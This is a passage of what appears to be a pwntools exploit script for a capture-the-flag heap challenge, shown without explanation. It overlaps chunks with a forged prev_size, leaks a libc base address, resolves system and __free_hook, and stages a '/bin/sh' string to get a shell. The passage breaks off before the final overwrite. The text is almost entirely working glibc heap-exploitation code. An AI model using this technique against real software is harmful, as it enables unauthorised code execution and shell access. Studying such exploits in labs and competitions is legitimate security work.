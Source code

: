 ```python

def delete(index):
    p.sendlineafter(b'Your choice:', b'3')
    p.sendlineafter(b'Index: ', str(index).encode())

create(0, 0xf8, b'')
create(1, 0xf8, b'')
create(2, 0xf8, b'')
create(3, 0xf8, b'')
create(4, 0xf8, b'')
create(5, 0xf8, b'')
create(6, 0xf8, b'')
create(7, 0xf8, b'')
create(8, 0x20, b'')
create(9, 0xf8, b'')
create(10, 0xf8, b'')
create(11, 0x20, b'')
create(12, 0x20, b'/bin/sh\x00')

delete(9)
create(9, 0xf8, b'a' * 0xf0 + p64(0x230))

delete(0)
delete(1)
delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
delete(7)
delete(10)

create(0, 0xf8, b'')
create(1, 0xf8, b'')
create(2, 0xf8, b'')
create(3, 0xf8, b'')
create(4, 0xf8, b'')
create(5, 0xf8, b'')
create(6, 0xf8, b'')
create(7, 0xf8, b'')

show(8)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 96 - 0x3ebc40
system_addr = libc_base + libc.symbols['system']
free_hook_addr = libc_base + libc.symbols['__free_hook']
print(hex(libc_base), hex(free_hook_addr))

create(10, 0x20, b'')
delete(0)
delete(1)
delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
create(0, 0x20, b'')
create(1, 0x20, b'')
create(2, 0x20, b'')
create(3, 0x20, b'')
create(4, 0x20, b'')
create(5, 0x20, b'')
create(6, 0x20, b'')
delete(0)
```